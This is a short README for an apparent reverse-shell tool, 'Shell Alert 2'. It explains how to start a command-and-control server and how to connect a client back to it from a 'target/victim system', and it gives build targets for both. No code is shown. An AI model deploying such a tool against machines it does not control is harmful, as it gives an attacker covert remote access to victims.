 # Shell Alert 2

Based of the work done by [adedayo](https://github.com/adedayo/reverse-shell).

## Usage

Start command and control server (`barracks`)

```bash
barracks 1337
```

Now connect from the target/victim system using the client (`conscript`), specifying the hostname/ip of the barracks, and port that the barracks is listening on (1337 in our example)
```bash
conscript <ip/hostname of barracks> <port of barracks>
```

## Build

Build C&C servers to `./bin/buildings` 

```
make buildings
```

Build clients to `./bin/units` 

```
make units
```

Build everything

```
make all
```


